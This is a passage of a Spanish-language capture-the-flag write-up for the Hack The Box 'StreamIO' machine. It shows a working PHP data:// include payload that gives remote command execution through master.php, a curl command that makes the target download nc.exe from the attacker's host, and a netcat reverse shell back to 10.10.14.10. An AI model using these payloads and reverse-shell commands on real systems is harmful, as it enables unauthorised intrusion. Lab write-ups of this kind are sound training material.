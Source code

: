 Cambiamos el metodo por enviar data por POST como un binario en base64
```ruby
❯ curl -s --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7Cg==" 'https://streamio.htb/admin/?cmd=whoami' -H "Cookie: PHPSESSID=i6r25al9765eq02gnv5hm92b0a" -k | grep streamio ; echo $?
1
```
...

Despues de muchos intentos, pude dar con el problema

El 'include' solo se aprecia en el master.php por ende la cadena en base64 la estoy enviando a master.php
```ruby
❯ curl -s --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" "https://streamio.htb/admin/?debug=master.php&cmd=whoami" -H "Cookie: PHPSESSID=i6r25al9765eq02gnv5hm92b0a" -k |grep streamio
streamio\yoshihide
```

Tenemos un RCE

Ahora le podemos cargar el netcat y lo ejecutamos para ganar acceso a la máquina

Nos ponemos en escucha por un puerto donde este el netcat.exe
```ruby
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Le cargamos el netcat.exe y lo depositamos en un directorio común que tengamos acceso
```ruby
❯ curl -s --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" "https://streamio.htb/admin/?debug=master.php&cmd=curl+http://10.10.14.10/nc.exe+-o+c:/windows/temp/nc.exe" -H "Cookie: PHPSESSID=i6r25al9765eq02gnv5hm92b0a" -k |grep streamio
```

Nos ponemos en escucha con netcat en nuestro equipo para recibir la consola interactiva
```ruby
❯ rlwrap nc -nvlp 6060
```

Interpretamos el netcat para que nos de la consola
```ruby
❯ curl -s --data-binary "include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7" "https://streamio.htb/admin/?debug=master.php&cmd=c:/windows/temp/nc.exe+-e+cmd+10.10.14.10+6060" -H "Cookie: PHPSESSID=i6r25al9765eq02gnv5hm92b0a" -k |grep streamio
```

### Primer acercamiento a la Máquina [+](#acceso) {#acceso}

Ya entramos en la máquina!!
```powershell
Connection from 10.10.11.158:49948
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\streamio.htb\admin>whoami
whoami
streamio\yoshihide
```

